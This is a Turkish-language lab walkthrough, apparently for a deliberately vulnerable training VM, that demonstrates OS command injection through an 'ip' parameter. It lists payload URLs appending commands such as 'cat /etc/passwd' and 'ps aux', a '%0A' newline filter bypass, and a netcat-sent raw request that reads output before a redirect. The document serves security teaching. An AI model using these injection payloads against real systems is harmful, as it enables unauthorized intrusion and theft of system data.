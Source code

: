 > http://192.168.56.101/commandexec/example1.php?ip=127.0.0.1;ls;
>
> http://192.168.56.101/commandexec/example1.php?ip=127.0.0.1;pwd;
>
> http://192.168.56.101/commandexec/example1.php?ip=127.0.0.1;cat /etc/hostname;
>
> http://192.168.56.101/commandexec/example1.php?ip=127.0.0.1;whoami;
>
> http://192.168.56.101/commandexec/example1.php?ip=127.0.0.1;ls /etc;
>
> http://192.168.56.101/commandexec/example1.php?ip=127.0.0.1;ls /home;
>
> http://192.168.56.101/commandexec/example1.php?ip=127.0.0.1;cat /etc/passwd;
>
> http://192.168.56.101/commandexec/example1.php?ip=127.0.0.1;cat /etc/services;
>
> http://192.168.56.101/commandexec/example1.php?ip=127.0.0.1;cat /etc/hosts;
>
> http://192.168.56.101/commandexec/example1.php?ip=127.0.0.1;cat /etc/shells;
>
> http://192.168.56.101/commandexec/example1.php?ip=127.0.0.1;ls /bin;
>
> http://192.168.56.101/commandexec/example1.php?ip=127.0.0.1;cat /proc/meminfo;
>
> http://192.168.56.101/commandexec/example1.php?ip=127.0.0.1;df -h;
>
> http://192.168.56.101/commandexec/example1.php?ip=127.0.0.1;ps aux;
>
> http://192.168.56.101/commandexec/example1.php?ip=127.0.0.1;echo $SHELL;

#### Example 2

Bu örnekte ise bizden alınan IP adresinin gerçekten bir IP adresi olup olmadığını kontrol etmiş fakat kullanıcıdan alınan değer sanki tek satırmış gibi düşünülmüş zira URL yazdığımız alanda alt satıra geçemiyoruz ama **"%0A"** karakterlerini kullanarak sistemde alt satıra geçebiliriz.

`http://192.168.56.101/commandexec/example2.php?ip=127.0.0.1%0Als;`

`http://192.168.56.101/commandexec/example2.php?ip=127.0.0.1%0Acat /etc/passwd;`

#### Example 3

Bu bölümde de IP adresi filtrelemesi var eğer IP adresi istenildiği gibi değilse bir şeyler yanlış gidiyorsa yönlendirme yapılıyor ve `http://192.168.56.101/commandexec/example1.php?ip=127.0.0.1 `adresine gidiyoruz buradaki zafiyet ise kodlar çalıştırıldıktan sonra yönlendirme işlemi yapılıyor.

`netcat 192.168.56.101 80` bağlantı açıp

```http
GET http://172.16.248.132/commandexec/example3.php?ip=127.0.0.1;ls HTTP\1.0
Host: 192.168.56.101
```

satırlarını giriyoruz ve bir HTTP isteği atıyoruz ve gelen kaynak kodda istediğimiz çıktıyı görebiliyoruz.
